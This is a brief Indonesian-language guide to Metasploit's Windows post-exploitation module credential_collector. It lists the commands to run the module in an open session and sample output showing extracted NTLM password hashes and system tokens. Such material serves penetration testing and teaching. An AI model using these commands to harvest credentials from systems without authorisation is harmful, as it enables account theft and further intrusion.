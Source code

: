 # credential_collector

Modul `credential_collector` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengumpulkan berbagai jenis kredensial dari komputer target, termasuk `username`, `password`, `token`, dan `informasi login lainnya` yang tersimpan di sistem.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/credentials/credential_collector
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Running module against ADMIN-PC
[+] Collecting hashes...
    Extracted: admin:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634
    Extracted: Administrator:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    Extracted: Guest:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    Extracted: HomeGroupUser$:aad3b435b51404eeaad3b435b51404ee:afd92ce617b3210a7243ac63c8b3cf98
    Extracted: loginbang:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
[+] Collecting tokens...
    admin-PC\admin
    NT AUTHORITY\LOCAL SERVICE
    NT AUTHORITY\NETWORK SERVICE
    NT AUTHORITY\SYSTEM
    No tokens available
[*] Post module execution completed
```
